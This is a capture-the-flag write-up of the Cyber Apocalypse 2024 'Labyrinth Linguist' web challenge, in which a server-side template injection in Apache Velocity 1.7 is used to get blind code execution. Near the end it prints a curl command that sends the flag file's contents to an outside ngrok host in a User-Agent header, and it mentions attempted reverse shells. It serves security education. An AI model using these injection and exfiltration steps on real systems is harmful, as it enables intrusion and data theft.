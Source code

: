 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2024 | Labyrinth Linguist Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2024
parent: cyber_apocalypse_2024
category: web
challenge: Labyrinth Linguist
tags: "web, twh, ssti"
date: 2024-03-16T00:00:00+00:00
last_modified_at: 2024-03-16T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2024</h1>

## Labyrinth Linguist
> Solved by : thewhiteh4t


- In this challenge we have a translation service
- Upon inspecting source files, we noticed few things : 
    - flag file is partially randomized in `entrypoint.sh`

```
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```

- In `pom.xml` we can see the dependencies and their version information :

```xml
<parent>
  <groupId>org.springframework.boot</groupId>
  <artifactId>spring-boot-starter-parent</artifactId>
  <version>1.5.10.RELEASE</version>
</parent>

<dependencies>
  <dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-web</artifactId>
  </dependency>
  <dependency>
    <groupId>org.apache.velocity</groupId>
    <artifactId>velocity</artifactId>
    <version>1.7</version>
  </dependency>
  <dependency>
    <groupId>org.apache.velocity</groupId>
    <artifactId>velocity</artifactId>
    <version>1.7</version>
  </dependency>
</dependencies>
```

- Velocity v1.7 is vulnerable to SSTI attack
- References :
```
https://antgarsil.github.io/posts/velocity/
https://iwconnect.com/apache-velocity-server-side-template-injection/
```
- Based on the PoC above we ran the test case

```
#set ($run=1 + 1) $run
```

![](https://i.imgur.com/AltGQxG.png)

- RCE was blind because we had no output of the commands so we used `ngrok` for getting a callback to confirm if the payload was working
- Then we tried reverse shells but none of them worked for some reason so we thought to simplify we can make it download a file
- And since the command output was not visible we used web requests to exfiltrate the flag by setting custom user agent in curl command

```
> cat pwn

curl "https://f084-116-74-26-67.ngrok-free.app/special" -H "User-Agent: $(cat /flag*)"
```

![](https://i.imgur.com/8itLO2W.png)

- After sending the file we send a second request to run it using : `sh pwn`


![](https://i.imgur.com/sWeNay4.png)



- Web logs in ngrok dashboard :


![](https://i.imgur.com/o1yA2db.png)

